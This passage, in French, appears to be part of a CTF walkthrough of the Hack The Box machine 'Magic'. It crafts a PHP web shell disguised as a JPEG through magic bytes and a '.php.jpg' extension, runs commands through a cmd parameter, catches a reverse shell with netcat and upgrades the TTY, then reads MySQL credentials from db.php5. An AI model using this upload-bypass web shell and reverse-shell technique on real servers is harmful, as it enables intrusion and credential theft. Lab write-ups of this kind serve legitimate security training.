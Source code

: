 En une seule ligne de code, cela nous donne :
```bash
echo -ne '\xFF\xD8\xFF\xE0<?php system($_GET["cmd"]); ?>' > shell_magic.php.jpg
```
On peut alors executer du code php sur la machine en utilisant le paramètre **cmd** :
> http://10.10.10.185/images/uploads/shell_magic.php.jpg?cmd=id

Pourquoi cela fonctionne ?
- Le serveur vérifie l'extension du fichier. Ici, la dernière extension est bien ".jpg", notre fichier passe le 1er test.
- Ensuite, le serveur vérifie le magic byte, il s'agit de plusieurs octets ecrit au début du fichier précisant le type : JPG, GIF, PHP. Il suffit donc de placer le magic byte d'une image PNG ou JPG pour passer cette deuxième couche de protection.

Pourquoi le code php est executé ?
Apache traite toutes les extensions dans un nom de fichier et s’arrête à la **première extension** qu’il reconnaît comme "exécutable" (comme .php), même si elle n’est pas la dernière. D'où l'importance d'écrire ".php.jpg". Si on place seulement ".jpg", le serveur apache interpretera le fichier comme une image et le code ne sera pas executé.

En utilisant le reverse shell php "pentest monkey", on obtient facilement un shell sur la machine :
```bash
nc -lnvp 9001
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.10.10.185.
Ncat: Connection from 10.10.10.185:51964.
Linux magic 5.3.0-42-generic #34~18.04.1-Ubuntu SMP Fri Feb 28 13:42:26 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 06:41:39 up 19:17,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (1197): Inappropriate ioctl for device
bash: no job control in this shell
www-data@magic:/$ export TERM=xterm
export TERM=xterm
www-data@magic:/$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@magic:/$ ^Z
[1]  + 9828 suspended  nc -lnvp 9001
$ stty raw -echo;fg                                               
[1]  + 9828 continued  nc -lnvp 9001

www-data@magic:/$ whoami
www-data
```

### mysql creds : db.php5
On trouve un fichier de base de donnée avec db.php5
```bash
www-data@magic:/var/www/Magic$ cat db.php5 
<?php
class Database
{
    private static $dbName = 'Magic' ;
    private static $dbHost = 'localhost' ;
    private static $dbUsername = 'theseus';
    private static $dbUserPassword = 'iamkingtheseus';
...
```
